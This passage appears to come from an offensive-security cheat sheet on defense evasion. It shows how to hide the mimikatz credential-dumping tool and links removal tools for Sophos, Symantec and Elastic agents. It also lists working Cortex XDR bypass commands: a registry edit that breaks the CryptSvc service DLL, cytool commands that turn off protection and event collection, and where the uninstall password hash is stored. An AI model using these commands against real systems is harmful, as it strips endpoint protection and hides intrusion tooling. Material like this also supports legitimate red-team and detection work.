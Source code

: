 ```ps1
PS> attrib +h mimikatz.exe
```

## Disable Antivirus and Security

### Antivirus Removal

* [Sophos Removal Tool.ps1](https://github.com/ayeskatalas/Sophos-Removal-Tool/)
* [Symantec CleanWipe](https://knowledge.broadcom.com/external/article/178870/download-the-cleanwipe-removal-tool-to-u.html)
* [Elastic EDR/Security](https://www.elastic.co/guide/en/fleet/current/uninstall-elastic-agent.html)
    ```ps1
    cd "C:\Program Files\Elastic\Agent\"
    PS C:\Program Files\Elastic\Agent> .\elastic-agent.exe uninstall
    Elastic Agent will be uninstalled from your system at C:\Program Files\Elastic\Agent. Do you want to continue? [Y/n]:Y
    Elastic Agent has been uninstalled.
    ```
* [Cortex XDR](https://mrd0x.com/cortex-xdr-analysis-and-bypass/)
    ```ps1
    # Global uninstall password: Password1
    Password hash is located in C:\ProgramData\Cyvera\LocalSystem\Persistence\agent_settings.db
    Look for PasswordHash, PasswordSalt or password, salt strings.

    # Disable Cortex: Change the DLL to a random value, then REBOOT
    reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CryptSvc\Parameters /t REG_EXPAND_SZ /v ServiceDll /d nothing.dll /f

    # Disables the agent on startup (requires reboot to work)
    cytool.exe startup disable

    # Disables protection on Cortex XDR files, processes, registry and services
    cytool.exe protect disable

    # Disables Cortex XDR (Even with tamper protection enabled)
    cytool.exe runtime disable

    # Disables event collection
    cytool.exe event_collection disable
    ```
